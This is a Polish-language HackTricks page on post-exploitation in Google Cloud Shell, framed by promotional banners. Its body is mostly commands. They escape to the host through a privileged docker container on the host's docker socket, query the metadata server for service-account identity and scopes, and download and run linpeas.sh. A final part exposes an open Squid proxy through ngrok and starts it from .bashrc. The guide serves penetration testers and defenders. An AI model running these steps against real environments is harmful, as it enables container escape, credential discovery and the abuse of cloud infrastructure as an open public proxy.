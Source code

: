 # GCP - Post-eksploatacja Cloud Shell

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCJI**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi trikami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
* &#x20;repozytoria github.

</details>

## Cloud Shell

Aby uzyskać więcej informacji na temat Cloud Shell, sprawdź:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Ucieczka z kontenera

Należy zauważyć, że Google Cloud Shell działa wewnątrz kontenera, można **łatwo uciec do hosta**, wykonując: 

{% code overflow="wrap" %}
```bash
sudo docker -H unix:///google/host/var/run/docker.sock pull alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock run -d -it --name escaper -v "/proc:/host/proc" -v "/sys:/host/sys" -v "/:/rootfs" --network=host --privileged=true --cap-add=ALL alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock start escaper
sudo docker -H unix:///google/host/var/run/docker.sock exec -it escaper /bin/sh
```
{% endcode %}

To nie jest uważane za podatność przez Google, ale daje szerszą wizję tego, co dzieje się w tym środowisku.

Ponadto, zauważ, że z hosta możesz znaleźć token konta usługi:

{% code overflow="wrap" %}
```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/"
default/
vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/
```
{% endcode %}

Z następującymi zakresami:

{% code overflow="wrap" %}
```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/scopes"

https://www.googleapis.com/auth/devstorage.read_only
https://www.googleapis.com/auth/logging.write
https://www.googleapis.com/auth/monitoring.write
```
{% endcode %}

Wylicz metadane za pomocą LinPEAS:

{% code overflow="wrap" %}
```bash
cd /tmp
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
sh linpeas.sh -o cloud
```
{% endcode %}

Po użyciu [https://github.com/carlospolop/bf\_my\_gcp\_permissions](https://github.com/carlospolop/bf\_my\_gcp\_permissions) z tokenem konta usługi **nie znaleziono żadnych uprawnień**...

### Użyj go jako proxy

Jeśli chcesz użyć swojej instancji powłoki Google Cloud jako proxy, musisz uruchomić następujące polecenia (lub umieścić je w pliku .bashrc):
```bash
sudo apt install -y squid
```
Tylko po to, abyś wiedział, Squid to serwer proxy HTTP. Utwórz plik **squid.conf** z następującymi ustawieniami:
```bash
http_port 3128
cache_dir /var/cache/squid 100 16 256
acl all src 0.0.0.0/0
http_access allow all
```
Skopiuj plik **squid.conf** do **/etc/squid**.
```bash
sudo cp squid.conf /etc/squid
```
W końcu uruchom usługę squid:
```bash
sudo service squid start
```
Użyj ngrok, aby umożliwić dostęp do proxy z zewnątrz:
```bash
./ngrok tcp 3128
```
Po uruchomieniu skopiuj adres URL tcp://. Jeśli chcesz uruchomić proxy z przeglądarki, sugeruje się usunięcie części tcp:// i portu, a następnie wpisanie portu w polu portu ustawień proxy przeglądarki (squid to serwer proxy HTTP).

Aby lepiej korzystać z uruchamiania, plik .bashrc powinien zawierać następujące linie:
```bash
sudo apt install -y squid
sudo cp squid.conf /etc/squid/
sudo service squid start
cd ngrok;./ngrok tcp 3128
```
Instrukcje zostały skopiowane z [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key). Sprawdź tę stronę, aby zobaczyć inne szalone pomysły na uruchamianie różnego rodzaju oprogramowania (w tym baz danych i nawet systemu Windows) w Cloud Shell.

<details>

<summary><strong>Dowiedz się, jak hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCJI**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) na GitHubie.

</details>
